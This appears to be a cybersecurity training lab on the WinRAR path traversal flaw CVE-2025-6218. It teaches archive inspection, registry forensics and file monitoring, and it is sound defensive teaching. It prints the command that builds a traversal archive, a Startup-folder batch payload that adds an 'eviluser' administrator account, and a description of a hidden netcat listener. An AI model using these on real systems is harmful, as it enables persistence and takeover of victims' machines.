


# Weaponized Archive Files: Extract at Your Own Risk

In June 2025 <a href="https://nvd.nist.gov/vuln/detail/CVE-2025-6218" target="_blank">CVE-2025-6218</a> was published to the National Vulnerability Database (NVD). This vulnerability, specifically found in the Windows version of WinRAR, an archive extraction tool, exemplifies how path (directory) traversal, code execution, and the context of the user impact the severity of a potential exploit

The NVD states:

"RARLAB WinRAR Directory Traversal Remote Code Execution Vulnerability. This vulnerability allows remote attackers to execute arbitrary code on affected installations of RARLAB WinRAR. User interaction is required to exploit this vulnerability in that the target must visit a malicious page or open a malicious file. The specific flaw exists within the handling of file paths within archive files. A crafted file path can cause the process to traverse to unintended directories. An attacker can leverage this vulnerability to execute code in the context of the current user."

A refresher on path traversal attacks and security best practices is provided to start. The lab walks through an example of a weaponized archive file and how you can perform analysis on archive files to ensure they do not contain malicious code. Then, it demonstrates an example exploit against a vulnerable Ubuntu system and how to monitor for such actions.

| &#9201; LAB TIME |
|---|
| This lab is expected to take 30 minutes. |

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

| &#9888; CAUTION |
|---|
| You must complete *all* phases of the lab to receive your completion certificate. |

## Learning Objectives

 - Review path traversal attacks
 - Recognize context-based code execution
 - Analyze a weaponized archive file
 - Demonstrate a weaponized archive exploit

## Learner Expectations

 - Learners should be comfortable with command-line operations

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by analyzing and removing vulnerabilities and area 5 (Incident Detection and Response) by detecting weaponized files through file analysis.

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Defensive Cybersecurity, Digital Forensics, Incident Response, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T0397</a>: Perform Windows registry analysis
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1119</a>: Recommend vulnerability remediation strategies
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1348</a>: Distinguish between benign and potentially malicious cybersecurity attacks and intrusions
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1487</a>: Perform file and registry monitoring on running systems

<!-- cut -->

# Scenario

Given a Kali Linux workstation, investigate how archive files behave when extracted. Then, demonstrate methods of inspecting archive files and develop a monitoring and logging service to detect suspicious file extractions. 

Network diagram:



The lab environment consists of the following systems:
 
 - A Kali workstation for analyzing a weaponized archive
 - An Ubuntu Desktop to serve as the victim of a weaponized archive

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Kali | Kali | user | tartans |
| Ubuntu Desktop | Ubuntu |user | tartans|


<!-- cut -->

## Introduction

This section provides a review of path traversal and code execution as it applies to user context. After going over these concepts, we explore CVE-2025-6218 and how these concepts are leveraged in the vulnerability. This initial section is a 5-minute read and contains two (2) Knowledge Check questions at the end.

<details>
<summary>
<h3>Path Traversal</h3>
</summary>
<p>

Path traversal (also known as directory traversal) is a type of attack that attempts to gain access to files or data outside of the intended directory scope. Web services such as Apache assume a common `DocumentRoot` for serving content. By default, users cannot access files outside of that directory unless the server is explicitly configured to allow it (e.g., with Alias or Directory directives). Directory traversal attacks typically exploit vulnerabilities in web applications (such as unvalidated file path inputs) rather than bypassing a service like Apache's own restrictions. Directory traversal attacks are also possible in file servers, APIs, and web-based CLIs. 

For example, if the `DocumentRoot` of a site was set to `/var/www/html/mysite/` and traversals were allowed for some reason, browsing to `http://mysite.org/../../../../etc/shadow` could expose sensitive data in the local system's shadow file. The syntax of `../` means to go up one directory. If you go up four directories from `/var/www/html/mysite/` you land in the root of the filesystem `/`. From here, the URL interprets the rest of the given path as `/etc/shadow` and that is the shadow file itself, which contains account names and password hashes.

For more information on website path traversals, refer to <a href="https://owasp.org/www-community/attacks/Path_Traversal" target="_blank">OWASP's Path Traversal</a> page.

System path traversals are more generic in nature and do not need to be web-based or refer to a particular site's `webroot`. An executable may be intended to run within the current working directory only. A common command in Unix and Linux for "jailing" or isolating a process to a specific working directory is `chroot`. This command, combined with other filesystem permissions, would prevent the process from accessing or writing data outside of the process' new working directory. If the process is not isolated, it might be able to access or write data elsewhere on the system. Sometimes this access is necessary, but the best practice by default would be to isolate process working paths and directories whenever possible to limit unintended read/writes elsewhere on the system.

There are many unintended consequences to directory or path traversal vulnerabilities, such as: 
 - Unauthorized reading of sensitive data 
 - Unauthorized writing or overwriting of data 
 - Bypassing authentication or access controls/permissions 
 - Gaining information about an application or system 
 - Executing remote code (if file upload/inclusion or script execution is possible) 
 - Escaping the application to access the underlying system 

</p>
</details>

<details>
<summary>
<h3>Code Execution and User Context</h3>
</summary>
<p>

When code executes, it tends to run with the permissions and privileges of the user who launches the process, command, or application. As Windows users, think about User Account Control (UAC) prompts that request administrative privileges. Have you ever tried to run a program and were told you didn't have permissions to do so? Have you ever chosen to run a program as an administrator? If so, that process—if exploited in that context—could produce far more damaging results. 

This occurs on Unix/Linux as well. Many times, you may need to use the `sudo` option to run a command with higher privileges. If running as a standard user and using the `sudo` option, only the processes spawned by that command—including any child processes—inherit the elevated permissions. This strikes a balance between needing elevated privileges for specific tasks, but not always running in the context of the root user.

The goal of an attacker might be to execute code in the context of an administrator or root-level account, providing full system access. They can do this by compromising a standard user account and trying to elevate their privileges or exploit an application or service that runs at a higher level. This is why the best practice of running services and applications with least privilege is fundamental to security. When followed, attackers must chain together additional vulnerabilities to escalate their privileges. 

Combined with the ability to perform path traversal attacks, malicious actors could take full control of a system and access all its data. The vulnerability we are about to explore shows how both path traversal and code execution context were used to create a high-severity vulnerability in WinRAR on Windows. 

</p>
</details>

<details>
<summary>
<h3>CVE-2025-6218</h3>
</summary>
<p>

CVE-2025-6218 is a vulnerability affecting WinRAR versions prior to 7.12, including RAR, UnRAR, and UnRAR.dll, which are all built upon WinRAR. The vulnerability was included in CISA's <a href="https://www.cisa.gov/news-events/bulletins/sb25-174" target="_blank">Vulnerability Summary for the Week of June 16, 2025</a>

| &#128736; WinRAR |
|---|
| _<a href="https://www.win-rar.com/" target="_blank">WinRAR</a> is an archive extraction tool developed by RARLabs that supports a variety of archive formats across multiple operating systems. The first versions of WinRAR can be traced back to 1993. WinRAR and other versions of RAR have been released for Windows, MacOS, Linux, and even Android._ |

Although WinRAR is available on Linux and other platforms, this vulnerability specifically affects the Windows version. The vulnerability enables both path traversal and remote code execution, though in a roundabout manner. It should be noted that any proof of concept to exploiting this vulnerability requires user interaction with the archive file by extracting the contents. The archive simply being present on the system is not enough and the extraction process itself does not execute any scripts or code.

When a user extracts archive files (e.g., .zip or .rar) with WinRAR or similar tools, they typically select a destination or target directory. The extracted items are expected to land in the chosen directory. However, a specially crafted, malicious archive can manipulate file paths during extraction, causing files to be placed outside the intended target directory. For example, the archive could drop malicious executables into sensitive directories such as the Windows user's Startup folder. Files in that folder execute automatically every time the system boots, enabling attackers to establish persistence via backdoors, keyloggers, or other malware.

Attackers often deliver such malicious archives through phishing emails or compromised downloads. A user may believe they are extracting files safely, but the archive can quietly place payloads elsewhere on the system. If the extraction process is run under an Administrator account, any code triggered as a result executes with full administrative privileges, significantly amplifying the impact.

Additionally, since many archive files compress and can even encrypt the data within when password protected, web and email-based scrubbing tools typically cannot identify potential malware within, allowing malicious actors to circumvent these tools.

WinRAR versions 7.12 and later have patched this vulnerability, and no confirmed cases of active exploitation have been reported at the time of publishing this lab. Nevertheless, CVE-2025-6218 highlights how path traversal and remote code execution can intersect to create serious security risks.

Equipped with this understanding of path traversal, code execution, user context, and the WinRAR vulnerability, this lab guides you through analyzing potentially weaponized archive files before extraction. You then walk through a practical example of this type of exploit and learn how to detect and defend against similar attacks.

</p>
</details>

<details>
<summary>
<h3>Introduction Knowledge Check
</h3>
</summary>
<p>

**Knowledge Check Question 1:** *What Unix or Linux command can be used to isolate a process to a specific working directory?*

**Knowledge Check Question 2:** *What folder can be used to trigger malicious scripts and executables at boot in Windows?*

`Enter the correct answer into the corresponding question submission field to receive credit. Complete all Introduction questions before moving on to phase 1.`

</p>
</details>

## Phase 1: Exploiting WinRAR with a Weaponized Archive File

<details>
<summary>
<h3>Review Normal Archive Extraction
</h3>
</summary>
<p>

1. Open the **Kali** system console and log in with the credentials `user | tartans`, if not already logged in.

2. (**Kali**) Open the Terminal using the Desktop shortcut.

To see how a normal extraction occurs, create an archive file using RAR for Linux.

| &#128736; RAR |
|---|
| _RAR for Linux is a version of RAR available only as a command-line interface (CLI) tool._ |

3. (**Kali**, **Terminal**) Create a directory structure that would simulate our Kali Linux system path of `/etc/init.d/` and add a sample file to the directory with the following commands:

```
mkdir -p ~/Desktop/test/etc/init.d
echo "Hello" > ~/Desktop/test/etc/init.d/hello.txt
```

4. (**Kali**, **Terminal**) Check the folder contents in the file explorer by double-clicking the new folder on the Desktop.


The `hello.txt` file resides within a directory structure of `~/Desktop/test/etc/init.d/`.

5. (**Kali**, **Terminal**) Return to the Terminal and create a .rar archive file that contains the entire `/etc/init.d` directory with the following commands:

```
cd ~/Desktop/test
rar a ~/Desktop/hello.rar *
```

The `rar` command creates an archive (`-a` option) named `hello.rar` on the Desktop with the contents of the `~/Desktop/test/` directory. The command shows the following output when successful.


| &#128270; ARCHIVE FILES |
|---|
| _An archive file is a container that holds one or more files and their associated metadata. An archive may have a flat structure, where all files reside at a single level, or it can preserve a hierarchical directory structure, similar to a traditional filesystem. When extracted, the archive's contents typically maintain this internal structure. Common archive file types include .zip, .rar, .7z (7-Zip), .tar, and .gz (Gzip). Many archiving tools also provide data compression to reduce file size and may offer encryption with password protection for added security._ |

6. (**Kali**, **Terminal**) You can list the contents of the .rar file with the following command:

```
unrar l ~/Desktop/hello.rar
```

Notice that the content structure in the `unrar` output mirrors the output of the archiving `rar` command.


The directory structure of the archive looks like this:

```
hello.rar
├── etc/
│   └── init.d/
│       └── hello.txt
```

7. (**Kali**, **Terminal**) Let's try to extract the archive to the Desktop with the following command:

```
cd ~/Desktop
unrar x ~/Desktop/hello.rar
```

The contents do not go to the system's `/etc/init.d/`. Instead, they are placed in a path relative to the target path. Because we did not specify a target path, the target path was the Desktop itself, where the initial .rar file resides.


8. (**Kali**, **Terminal**) Let's try a new extraction path of `/` by using the following command:

```
unrar x ~/Desktop/hello.rar /
```

The intent is to extract (`-x` option) the contents to the root filesystem directory of `/` and thus be able to extract the `hello.txt` file to `/etc/init.d`. However, the command fails due to a permissions error.


9. (**Kali**, **Terminal**) Repeat the extraction again, but this time use the `sudo` option since the system directory of `/` requires root privileges. When prompted, enter the sudo password of `tartans`.

```
sudo unrar x ~/Desktop/hello.rar /
```


10. (**Kali**, **Terminal**) You can verify success with the following command:

```
sudo cat /etc/init.d/hello.txt
```

Since we can read the file in this location the extraction was successful, but with the following caveats:
 - We extracted the contents with elevated privileges (i.e., as root).
 - We intentionally and knowingly extracted the archive contents directly to the `/etc/init.d` directory.

Therefore, the extraction to a protected system path required 1) elevated privileges and 2) purposeful extraction to the sensitive target path. We did not perform any unintended path traversals or code execution in this test.

#### Grading Check

(**Kali-Investigator, Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)` from the `Kali` system. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.


**Grading Check 1:** Verify the contents and structure of the hello.rar file and that the contents were successfully extracted to the `/etc/init.d` directory
 - `hello.rar` is found on the Desktop and has the expected structure.
 - `hello.txt` exists in the `/etc/init.d` directory.

**Knowledge Check Question 3:** *If a weaponized archive was extracted with path traversals enabled to the "/home/user/tmp/scripts/archive" directory, but contained an item with a relative extraction path of "../../etc/init.d/service.sh", what would the final full path of service.sh be?*

`Copy the token or flag strings to the corresponding question submission field to receive credit. Remember to answer the knowledge check question as well.`

`You should complete all phase 1 tasks before moving on to phase 2.`


Let's see how the vulnerable version of WinRAR handles a similar situation.

</p>
</details>

<details>
<summary>
<h3>Inspect the Weaponized Archive
</h3>
</summary>
<p>

| &#8505; A NOTE ON THE LAB ENVIRONMENT |
|---|
|_The Skilling Continuation Labs strive to leverage open-source systems, tools, and technologies to ensure content is as extensible as possible to all users in all domains. While this lab demonstrates a vulnerability found in the Windows version of WinRAR and shows imagery of a Windows environment, you will not be interacting with any Windows operating systems within the lab due to licensing restrictions._ |

1. (**Kali**) Open Firefox and browse to `https://skills.hub` if the page does not open automatically. Then click on the "Hosted Files" link.

2. (**Kali**, **Firefox**) Click on and download the `Quarterlies.zip` file from the Hosted Files page.


3. (**Kali**, **Terminal**) Return to or open the Terminal and review the contents of the archive with the `unrar` command like before using the following command:

```
unzip -l ~/Downloads/Quarterlies.zip
```

The contents include four (4) Markdown files representing quarterly sales data. The content of these files is not important to us but instead notice the other item buried deep within a Windows path.


4. (**Kali**) Browse to the Downloads folder in the file explorer and double-click the archive file to open the Engrampa Archive Manager preview window.


| &#128736; ENGRAMPA ARCHIVE MANAGER  |
|---|
| _Engrampa Archive Manager is the equivalent to tools like WinRAR or 7-Zip and comes preinstalled on Kali distributions as a GUI-based archive management tool. Engrampa can be used to create archive files and extract contents from archive files._ |

This time the contents are a bit more obfuscated. The directory structure and path contents are not fully listed and instead we only see a single folder icon named "`..`".

5. (**Kali**, **Engrampa Archive Manager**) Drill down to the folder contents within the preview window to view the contents and full path.


The full path of the file is "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/create-user.bat"

| &#128270; INFORMATION |
|---|
| _The Zip file was created using the command: `"C:\Program Files\WinRAR\WinRAR.exe" a -ap" \.. \.. \AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\" %~dp0Quarterlies.zip create-user.bat`. This command creates the path structure that otherwise would not be possible. A sample of this process and a proof of concept can be found on_ <a href="https://github.com/skimask1690/CVE-2025-6218-POC" target="_blank">GitHub</a>_._ |

To explain the intended behaviors in detail, let's see what happens when this file is extracted on a Windows system running a vulnerable version of WinRAR.

</p>
</details>

<details>
<summary>
<h3>Exploiting WinRAR v7.11 on Windows</h3>
</summary>
<p>

#### Extracting the Payload

We'll assume the .zip file was downloaded from either an online web source or from an email. Therefore, the file would land in the user's Downloads folder.


| &#8505; A NOTE ON THE LAB ENVIRONMENT |
|---|
|_While the CVE documentation states that versions of WinRAR prior to version 7.12 are vulnerable, the Windows system shown in the imagery used throughout the lab relied specifically on WinRAR version 7.11. In this way, the lab demonstrates the vulnerability using the most recent version of WinRAR that was found to be exploitable, i.e. v7.11._ |

The user would then open the archive in a vulnerable version of WinRAR. In this case, the WinRAR version is 7.11.


Next, the user would extract the archive contents to a destination folder. By default, WinRAR creates a folder with the same name as the archive filename - "Quarterlies".


While the four Markdown files are extracted into a folder named Quarterlies within the Downloads folder, the .bat file is extracted into the user's Startup folder instead. If the user wasn't paying attention to the contents prior to extraction, they would likely never see this file land in their Startup folder. There isn't a visual notification that a file was extracted to a directory other than the expected target path.

#### What Just Happened?

Because of the vulnerability in WinRAR the contents of the archive are extracted based on the relative path of the contents within. Since the create-user.bat file has a relative path of "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/create-user.bat" and the user extracted the contents into a directory within their Downloads folder, the following occurred:

1. The target path was `C:\Users\Student\Downloads\Quarterlies`.

```
C:\
├── Users/
│   └── Student/
│       └── Downloads/
│           └── Quarterlies/   <---
```

2. The `../../` portion of the `create-user.bat` path changed the relative path of the extraction to the directory two levels up from the target path.
   - Two levels up from `C:\Users\Student\Downloads\Quarterlies` is `C:\Users\Student`

```
C:\
├── Users/
│   └── Student/  <---
│       └── Downloads/
│           └── Quarterlies/
```

3. The remaining extraction path begins from this location with the `create-user.bat` file landing in `AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup`, placing the file in the user's `Startup` folder even though it was never intended to go there

```
C:\
├── Users/
│   └── Student/
│       └── AppData/
│           └── Roaming/
│               └── Microsoft/
│                   └── Windows/
│                       └── Start Menu/
│                           └── Programs/
│                               └── Startup/
│                                   └── create-user.bat
│       └── Downloads/
│           └── Quarterlies/
```

4. The remaining files are placed in the target directory or path.

```
C:\
├── Users/
│   └── Student/
│       └── AppData/
│           └── Roaming/
│               └── Microsoft/
│                   └── Windows/
│                       └── Start Menu/
│                           └── Programs/
│                               └── Startup/
│                                   └── create-user.bat
│       └── Downloads/
│           └── Quarterlies/
│               └── Q1.md
│               └── Q2.md
│               └── Q3.md
│               └── Q4.md
```

You may have noticed that if the victim extracted the contents elsewhere, say directly to the Desktop, the extraction would not achieve the same effect. This .zip archive file counts on the user extracting the contents to a location two directories down from their own user profile directory. However, it doesn't matter what directory as long as it is two layers down from the user directory of `C:\Users\%USER%`. E.g. extracting to `C:\Users\Student\Documents\files` or `C:\Users\Student\Desktop\extracted-contents` would have the same intended effect.

Also note, the extraction process is agnostic to the user themselves. The same directory structure would be true for all users of the system.

In short, the pathing of the extraction must be precise, but the specific victim user does not matter as much. An actor could create multiple variations of the pathing in one archive, though this would leave artifacts on the system in random locations after the extraction process making it more likely to be caught.

#### So What?

What was the attacker able to achieve? The contents of the `create-user.bat` file are as follows:

```
net user eviluser Passw0rd! /add
net localgroup administrators eviluser /add
```

When the system next reboots, this script could be executed creating a new user named `eviluser` with a password of `Passw0rd!`, which is then added to the administrators group. This works in this case because the user that extracted the files to their Startup folder is an administrator (plus this system just happens to have UAC controls disabled).


With this new account an attacker that already has a foothold within the environment could continue to perform info and data gathering, pivoting, and gaining persistence. This is just one simple example of what an attacker could do with this ability to exploit a path traversal vulnerability. We'll look at another example in the next phase of the lab.

Truth be told, it takes a lot of pieces falling together for this exploit to work, but this vulnerability stresses the importance of best security practices such as running with least privileges, enabling user access controls, keeping systems and software up to date, and proper logging and monitoring. While the odds of this particular exploit occurring in the wild is very low, the ramifications could be severe, hence its HIGH criticality rating.

#### Attempting to Exploit a Nonvulnerable System

Now that we've seen what happens on a vulnerable system, let's take a quick look at what would happen on an updated system.


This time when the archive is extracted, the contents remain in the target of `C:\Users\Student\Downloads\Quarterlies`, instead of traversing paths to extract the .bat file to the Startup folder. WinRAR simply places the directory path and file in the `Quarterlies` folder.


```
C:\
├── Users/
│   └── Student/
│       └── Downloads/
│           └── Quarterlies/
│               └── Q1.md
│               └── Q2.md
│               └── Q3.md
│               └── Q4.md
│               └── AppData/
│                   └── Roaming/
│                       └── Microsoft/
│                           └── Windows/
│                               └── Start Menu/
│                                    └── Programs/
│                                       └── Startup/
│                                           └── create-user.bat
```

</p>
</details>

## Phase 2: Detection and Mitigation

<details>
<summary>
<h3>Inspecting Archives with xxd or Hexdit</h3>
</summary>
<p>

As shown in the previous phase of the lab, a careful eye could easily detect the pathing of an archive file's contents either via the command line using tools like unrar or in archive extraction GUI-based tools like WinRAR or Engrampa. Before extracting any unknown archive file, you should always verify and review the contents. However, even if we didn't have an archive extraction tool handy, there are other ways to investigate the contents of an archive file.

1. (**Kali**) Open Firefox and browse to `https://skills.hub` if the page does not open automatically. Then click on the "Hosted Files" link.

2. (**Kali**, **Firefox**) Click on and download the `security-update.rar` file from the Hosted Files page.


3. (**Kali**, **Terminal**) Open a Terminal, if not already open, and check the contents of the archive with the following command:

```
unrar l ~/Downloads/security-update.rar
```


You see something similar to the previous Quarterlies.zip archive structure.

4. (**Kali**, **Terminal**) View the raw contents of the archive with `xxd`` with the following command:

```
xxd ~/Downloads/security-update.rar
```


You can see the structure of the contents in the raw hex output of xxd. This is due to the content metadata not being part of the archive compression, and therefore; this data is visible in plaintext even though the contents of the archive themselves are not, i.e., the plaintext contents of either .bat file.

HexEdit is another common hex editor/reading tool that can view the raw contents of an archive file.

**Knowledge Check Question 4:** *How many levels does the security-update.rar archive expect to go up before matching the rest of the AppData directory structure to extract the .bat file to the Startup folder?*

In this way, we can flag potentially suspicious archive files by inspecting the internal layout of the contents and reviewing the raw metadata of the files within. Additionally, as we did in this task, you can always review or extract the contents on a system other than the intended target to ensure nothing nefarious occurs.

</p>
</details>

<details>
<summary>
<h3>Review Registry of Exploited System</h3>
</summary>
<p>

Let's say we've already extracted the contents of a weaponized archive, and we aren't sure if anything malicious occurred. We know how to check the Startup folder directly, but what about for other users? Another popular method of gaining persistence is adding malicious services. How could we check those without relying on a visual GUI and perhaps even monitor these key items for changes?

One way to do this on Windows would be through the Registry. The Windows Registry contains a plethora of system data pertaining to its configuration, settings, software, and users.

Using the `Quarterlies.zip` and `security-update.rar` archives as an example, we'll now review the registry keys that pertain to new users, startup items, and services on Windows. For this portion of the lab, we'll assume both archives were weaponized and extracted to the Student user's Startup folder. They were then triggered under the administrator context of the Student account at the next reboot.

1. (**Kali**) Open Firefox and browse to `https://skills.hub` if the page does not open automatically. Then click on the "Hosted Files" link.

2. (**Kali**, **Firefox**) Click on and download the `registry-files.zip` file from the Hosted Files page. (Don't worry! This archive file is not weaponized.)


3. (**Kali**, **Terminal**) Since we are now comfortable with command line extraction of archive files, extract the registry contents to the Desktop with the following command:

```
unzip ~/Downloads/registry-files.zip -d ~/Desktop
```

Let's start with the user accounts.

4. (**Kali**) On the Desktop, double-click Fred to open it. Fred stands for Forensics Registry EDitor and it allows us to view Windows registry hives on Linux.

5. (**Kali**, **FRED**) User accounts are part of the SAM registry. SAM stands for Security Account Manager and this hive includes the domains, groups, and accounts on a Windows system. Open the SAM hive in FRED by clicking **File** -> **Open hive** and then browsing to the **Desktop**, highlighting the **SAM** hive file, and clicking **Select**.


*NOTE: You may want to maximize the Fred windows to the full screen for maximum visibility*

6. (**Kali**, **FRED**) Fully expand all of the branches of the SAM node on the left of the FRED window so that Domains, Aliases, Groups, Users, and their respective Names are all visible.


Right away you should note the suspicious username. Based on the Last modified time, we can also tell that this account was the most recently added. If we can correlate the creation date/time to when an archive was downloaded and extracted, then there's a good chance that was the cause.

**Knowledge Check Question 5:** *What is the last modified time value for the eviluser account that was added?*

Next, let's look for evidence of startup items for this user. Unfortunately, the registry does not capture items located in the Startup folder. However, we can look directly for evidence of new services being added to the system.

7. (**Kali**, **FRED**) Repeat the process above to open a hive but this time select the SYSTEM hive file.

8. (**Kali**, **FRED**) This time, expand the **ControlSet001** -> **Services** branches of the SYSTEM node.

9. (**Kali**, **FRED**) Since we know the service would have been recently added, click on the "Last mod. time" column header to sort the entries by date in ascending order. This places the most recently updated services at the top (those last modified on August 1st, 2025).


There are a lot of recently modified services in the list. But we know the time that the user was created and can look for services modified near or just after that time.

10. (**Kali**, **FRED**) Scroll down through the services until you find a service with a timestamp close to the time you noted in the previous question (~16:13:00)


11. (**Kali**, **FRED**) While highlighted view the actual contents of the service in the pane on the right.


The service spawns a netcat (nc) listener on a specific port in the background (-WindowStyle Hidden) when it runs. The service also runs with the context of the eviluser account that was previously created.

**Knowledge Check Question 6:** *What port is used by netcat as the listener in the evilsvc service?*

The end result of these archives being extracted is a new administrative user being added to the system and a listener that could provide remote access. With administrator access and a reverse shell to the system, an attacker could do a variety of things to collect information, steal data, and compromise other systems.

</p>
</details>

<details>
<summary>
<h3>Monitoring and Endpoint Detection and Response</h3>
</summary>
<p>

In the final section of the lab, you'll monitor for events like the ones above with expectations of mitigating further risk to your assets.

1. (**Kali**, **Terminal**) Open a Terminal, if not already open, and ensure the `hello.txt` file is removed from the `/etc/init.d` directory with the following command. Use the sudo password `tartans` if needed.

```
sudo rm /etc/init.d/hello.txt
```

A monitoring service has been staged in advance using `inotify-tools`. The service script has been placed in the home directory at `/home/user/initd_watch.sh`. The service file has been placed at `/etc/systemd/system/initd-watch.service`.

2. (**Kali**, **Terminal**) Edit the script with the following command:

```
sudo nano /home/user/initd_watch.sh
```

3. (**Kali**, **Terminal**, **nano**) Add the correct **WATCH_DIR** value of `/etc/init.d`. The resulting file should look like this:

```
#!/bin/bash

WATCH_DIR="/etc/init.d"
LOG_FILE="/var/log/initd_monitor.log"

echo "Monitoring $WATCH_DIR for new files..."
echo "[$(date)] Monitoring started." >> "$LOG_FILE"

inotifywait -m -e create --format '%w%f' "$WATCH_DIR" | while read NEWFILE
do
    echo "[$(date)] New file detected: $NEWFILE"
    echo "[$(date)] New file detected: $NEWFILE" >> "$LOG_FILE"
done
```

The script monitors the `/etc/init.d` directory for the creation or addition of any new files while the script is running. If a new file is found it writes a notification to a logfile located at `/var/log/initd _monitor.log`.

4. (**Kali**, **Terminal**, **nano**) Save the file by pressing **CTRL-X**, press **Y** to save to the buffer and then press **Enter** to confirm the filename.

5. (**Kali**, **Terminal**) To prevent having to run this script manually over and over, we use a service file to handle it. Edit the service file with the following command:

```
sudo nano /etc/systemd/system/initd-watch.service
```

6. (**Kali**, **Terminal**, **nano**) Add the correct **ExecStart** value of `/home/user/initd_watch.sh`. The resulting file should look like this:

```
[Unit]
Description=Watch /etc/init.d for new files
After=network.target

[Service]
Type=simple
ExecStart=/home/user/initd_watch.sh

[Install]
WantedBy=multi-user.target
```

7. (**Kali**, **Terminal**, **nano**) Save the file by pressing **CTRL-X**, press **Y** to save to the buffer and then press **Enter** to confirm the filename.

8. (**Kali**, **Terminal**) Reload systemd, enable and start the service, and verify it is running with the following commands:

```
sudo systemctl daemon-reexec
sudo systemctl enable --now initd-watch.service
sudo systemctl status initd-watch.service
```



9. (**Kali**, **Terminal**) Re-extract the contents of `hello.rar` from the Desktop to the system root folder of `/` with the following command:

```
sudo unrar x ~/Desktop/hello.rar /
```

The monitoring script does *not* prevent new files from being created in the watched directory, it only notifies of their existence. You can verify the file has landed in the `/etc/init.d` directory with the following command:

```
sudo cat /etc/init.d/hello.txt
```

10. (**Kali**, **Terminal**) Wait a few moments and then check the log to see if it has alerted on the new file. You can view the log file with the following command:

```
less /var/log/initd_monitor.log
```

This log file could also be fed into log management tools like Elastic and the <a href="https://www.cisa.gov/resources-tools/services/logging-made-easy" target="_blank">CISA Logging Made Easy</a> solution.

Endpoint Detection and Response (EDR) tools and other types of host monitoring tools can proactively assist in watching for changes on the system such as new user accounts being created, registry changes, new services/application, and much more. Proper logging also records these events for later correlation and root cause analysis.

#### Grading Check

(**Kali-Investigator, Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)` from the `Kali` system. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.


**Grading Check 2:** Verify initd-watch.service is properly monitoring the /etc/init.d directory and writes a new file alert to /var/log/initd_monitor.log log file.
 - initd-watch.service is correct and running
 - /var/log/init.d_monitor.log contains a valid log alerting on the new file of "hello.txt"

`Copy the token or flag strings to the corresponding question submission field to receive credit. Remember to answer the knowledge check question as well.`

</p>
</details>

## Lab Wrap-up

<details>
<summary>
<h3>Conclusion</h3>
</summary>
<p>

By completing this lab, you walked through how archive files extract their contents and how a weaponized archive could be used to bypass path traversal protections, especially when run in the context of a privileged account. You were able to practice various ways to inspect and review archives for suspicious contents as well as monitoring and logging services to detect suspicious startup or service files.

To recap:
 - You examined how weaponized archive files can be used to achieve path traversal
 - You reviewed how startup items can lead to further compromise of a system
 - You investigated Windows registry artifacts for evidence of compromise
 - You implemented a directory monitoring service

Skills exercised:
 - S0544: Skill in recognizing vulnerabilities
 - S0840: Skill in identifying misuse activities
 - S0846: Skill in monitoring system activity
 - S0882: Skill in performing static analysis
 - S0885: Skill in performing system activity analysis

### References

 - <a href="https://www.cisa.gov/sites/default/files/2024-08/Federal_Government_Cybersecurity_Incident_and_Vulnerability_Response_Playbooks_508C.pdf" target="_blank">CISA's Cybersecurity Incident & Vulnerability Response Playbooks</a>
 - <a href="https://www.cisa.gov/resources-tools/services/logging-made-easy" target="_blank">CISA's Logging Made Easy</a>
 -  <a href="https://www.cisa.gov/news-events/bulletins/sb25-174" target="_blank">CISA's Vulnerability Summary for the Week of June 16, 2025</a>
 - <a href="https://nvd.nist.gov/vuln/detail/CVE-2025-6218" target="_blank">CVE-2025-6218</a>
 - <a href="https://github.com/skimask1690/CVE-2025-6218-POC" target="_blank">CVE-2025-6218 Proof of Concept (POC)</a>
